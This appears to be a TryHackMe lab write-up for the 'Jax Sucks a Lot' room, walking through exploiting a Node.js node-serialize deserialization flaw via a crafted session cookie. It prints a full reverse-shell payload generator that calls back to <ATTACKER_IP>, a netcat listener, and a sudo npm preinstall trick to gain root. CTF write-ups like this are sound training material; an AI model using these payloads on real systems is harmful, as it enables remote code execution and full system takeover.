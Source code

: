 ```yaml
---
layout: post
title: TryHackMe/Easy/Jax-Sucks-a-Lot
abbrlink: deeed811623647ae8bf6447635775c48
tags:
  - serialization
  - nodejs
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - Jax Sucks a Lot...
date: 1721600441525
updated: 1721710378299
---
```


<https://tryhackme.com/r/room/jason>

# Scenario

**We are Horror LLC**, we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!

Thanks to @Luma for testing the room.

# Enumeration

## \[+] 10.10.78.18 - jax.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.78.18 jax.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.78.18
```

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80

The website asks for the user to input their e-mail address to sign up for a newsletter:

![58270cf319c7b00d1dcc44b6612283df.png](/resources/20ad2e7746394d5c8cdf702f9094142e.png)

Let's test this function by entering the e-mail `test@test.com` and click the "Submit" button:

![56c3253162ab162d2cbc15a380708bd8.png](/resources/301ac36c8dd6491da2e5a0d462945cd8.png)

We could test for injection or cross-site scripting, but first open the developer's tool by pressing the `F12` key, then click on the "Storage" tab and click on the arrow next to "Cookies" so that the arrow is pointing down, then click on "`http://jax.thm`":

![0157d7dc6f08796d49d73f5f136d06c3.png](/resources/e4bb661d7f224ee5af700c572f76cb43.png)

After we submitted our test e-mail to the newsletter, we were assigned a cookie that is base64 encoded. We can decode this using the [base64](https://linux.die.net/man/1/base64) command with the `-d` flag, but we have to [echo](https://linux.die.net/man/1/echo) the base64 encoded string into the `base64` command using the pipe character (`|`) in order to decode it properly:

```sh
echo "eyJlbWFpbCI6InRlc3RAdGVzdC5jb20ifQ==" | base64 -d
```

![353aaa146a44a72002828f92439ea0ab.png](/resources/93123bfd61c0415f909d9a0762fb4830.png)

This process is called serialization. The data is stored as base64 to ensure the data maintains integrity and can be recreated at a later time. This [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization) article explains the process an exploitation in depth.

Since the website is built with NodeJS, we can scroll down to find [this article by OpSecX](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which explains the process of exploiting the `unserialze()` function in the `node-serialize` module.

# Initial Foothold

### \[-] dylan\@jason

Following the article, we can use [this Python script](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate a reverse shell payload for us. The script has been modified by the author, but it can be fixed by wrapping the `print` functions with parenthesis `()`:

```python
#!/usr/bin/python
# Generator for encoded NodeJS reverse shells
# Based on the NodeJS reverse shell by Evilpacket
# https://github.com/evilpacket/node-shells/blob/master/node_revshell.js
# Onelineified and suchlike by infodox (and felicity, who sat on the keyboard)
# Insecurety Research (2013) - insecurety.net
import sys

if len(sys.argv) != 3:
    print("Usage: %s <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

IP_ADDR = sys.argv[1]
PORT = sys.argv[2]


def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print("[+] LHOST = %s" % (IP_ADDR))
print("[+] LPORT = %s" % (PORT))
NODEJS_REV_SHELL = '''
var net = require('net');
var spawn = require('child_process').spawn;
HOST="%s";
PORT="%s";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { String.prototype.contains = function(it) { return this.indexOf(it) != -1; }; }
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
''' % (IP_ADDR, PORT)
print("[+] Encoding")
PAYLOAD = charencode(NODEJS_REV_SHELL)
print("eval(String.fromCharCode(%s))" % (PAYLOAD))
```

After fixing the script, we can run it using `python`:

```sh
python nodejsshell.py <ATTACKER_IP> 4444
```

![f8bec580156cbc586a4da48c4e93accf.png](/resources/96ae7237be374fe2a260a66515b9d946.png)

Copy the encoding and paste it into:

```
{"email":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(<ENCODED_STRING>))}()"}
```

Now, we need to base64 encode everything before we can send our request. We can use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64\('A-Za-z0-9%2B/%3D'\)) to make things simple. It should look similar to this:

![cb9d6501be93a18ca71bf99568c01d8e.png](/resources/5051db1fef324699afa2aa7907902deb.png)

Then, start a Netcat listener:

```sh
nc -nvlp 4444
```

And edit the value of the `session` cookie in the Developer Tools:

![f32b0f8dd17b1d885136a9fc2a06a0b3.png](/resources/b3852c3431a54c1f9ff0ec7132be609a.png)

After refreshing the page with our new cookie, we should have a connection back on our Netcat listener:

![2845506e70c9905c0f1d3f372c33df89.png](/resources/71c5f67617be4edcb2632dc3a189c5db.png)

We can find the user flag in `/home/dylan/user.txt`:

```sh
cd /home/dylan/
ls -lah
cat user.txt
```

![6097617cb26221ebffb1186a241ec43a.png](/resources/a307051d25e843c98b9e6ff9405d4a24.png)

Let's stablize the shell we just got doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

# Privilege Escalation

### \[-] root\@jason

Let's check our sudo privileges by using the `sudo -l` command:

![4a9eec9f6957490888b394ec2cb0835b.png](/resources/e95c4ebabab14c05974d246988e0dce5.png)

We can run the `/usr/bin/npm` binary with root privileges without needing a password to run it. Using a resource like [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo), we can see if there is a way to escalate our privileges to root using `npm`:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

![db3631a383f707d79ecf1baae82188d4.png](/resources/f032ec3d683b4bd4b817c936d2fea053.png)

We can find the root flag in `/root/root.txt`:

```sh
cat /root/root.txt
```

![ec2acae3d7582b350edbc91941db2d24.png](/resources/6969e82175ab44bfb13cfd98d56e4833.png)
